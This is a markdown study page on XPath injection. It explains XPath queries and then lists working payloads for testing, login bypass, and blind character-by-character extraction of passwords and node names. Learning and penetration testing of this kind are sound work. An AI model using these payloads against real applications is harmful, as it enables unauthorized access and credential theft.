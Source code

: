 ```yaml
---
layout: page
title:  "XPath injections"
permalink: "xpath-injections.html"
tags: [security, injections, web]
summary: ""
---
```

## Introduction
* XPath: XML Path Language. Interpreted language to navigate XML documents.
  XPath expression: sequence of steps required to navigate from one node to another
* XML files used to store applications configuration, and sometimes credentials, roles and privileges
* Single quotes not needed for numeric values
* Keywords and tag names in XML documents are case-sensitive
* Strategy: when regular SQL injections fail, it might be an XPath injection

## Example of queries
* Retrieve all email addresses: `//address/email/text()`
* Retrieve all information under `address` for the user Dawes: `//address[surname/text()='Dawes']`
* Credential verification: `//address[surname/text()='$user' and password/text()='$pass']`
* Access 2nd node of the first user: `//user[position()=1]/child::node()[position()=2]/text()`
* Count the number of nodes of all users: `count(//user/child::node())`
* Length of string: `stringlength(//address/email/text())`
* Substring extraction: `substring(//user/name/text(), start, n_char)`


## Injections
* Testing: `'`, `' or 'a'='a`
* `//address[surname/text()]='Dawes' and password/text()='' or 'a'='a']/ccard/text()`
* Password dump: `' or //address[surname/text()='Dave' and substring(password/text(), 1, 1)= 'A'] and 'a'='a` return results if the first letter or the password is 'A'
* For strings:
  * `' or count(parent::*[position()=1])=0 or 'a'='b`
  * `' or count(parent::*[position()=1])>0 or 'a'='b`
* If numeric:
  * `1 or count(parent::*[position()=1])=0`
  * `1 or count(parent::*[position()=1])>0`
* Current's node parent name:
```
' or substring(name(parent::*[position()=1]), 1, 1) = 'a
' or substring(name(parent::*[position()=1]), 1, 1) = 'b
' or substring(name(parent::*[position()=1]), 2, 1) = 'a
' or substring(name(parent::*[position()=1]), 2, 1) = 'b
' or substring(name(parent::*[position()=1]), 2, 1) = 'c
```
* `substring(//parentnodename[position()=1]/child::node()[position()=1]/text(), 1, 1)='a'`



## Resources
* XPath injection - authentication Root-me solutions
* XPath memo: EN - Introduction to Xpath injection techniques.pdf
* [Xcat tool](https://github.com/orf/xcat)
